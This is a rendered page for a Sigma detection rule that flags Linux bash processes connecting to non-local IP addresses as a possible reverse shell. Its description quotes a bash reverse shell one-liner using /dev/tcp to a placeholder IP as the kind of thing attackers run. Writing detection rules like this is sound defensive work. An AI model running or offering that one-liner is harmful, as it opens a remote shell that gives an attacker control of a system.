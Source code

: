 ```yaml
---
title: "Linux Reverse Shell Indicator"
aliases:
  - "/rule/83dcd9f6-9ca8-4af7-a16e-a1c7a6b51871"
ruleid: 83dcd9f6-9ca8-4af7-a16e-a1c7a6b51871



status: experimental





date: Sat, 16 Oct 2021 14:21:55 +0200


---
```


Detects a bash contecting to a remote IP address (often found when actors do something like 'bash -i >& /dev/tcp/10.0.0.1/4242 0>&1')

<!--more-->


## Known false-positives

* Unknown



## References

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


## Raw rule ([edit](https://github.com/SigmaHQ/sigma/edit/master/rules/linux/network_connection/net_connection_lnx_back_connect_shell_dev.yml))
```yaml
title: Linux Reverse Shell Indicator
id: 83dcd9f6-9ca8-4af7-a16e-a1c7a6b51871
status: experimental
description: Detects a bash contecting to a remote IP address (often found when actors do something like 'bash -i >& /dev/tcp/10.0.0.1/4242 0>&1')
references:
   - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
date: 2021/10/16
author: Florian Roth
logsource:
   product: linux
   category: network_connection
detection:
   selection:
      Image|endswith: '/bin/bash'
   filter:
      DestinationIp: 
         - '127.0.0.1'
         - '0.0.0.0'
   condition: selection and not filter
falsepositives:
   - Unknown
level: critical


```

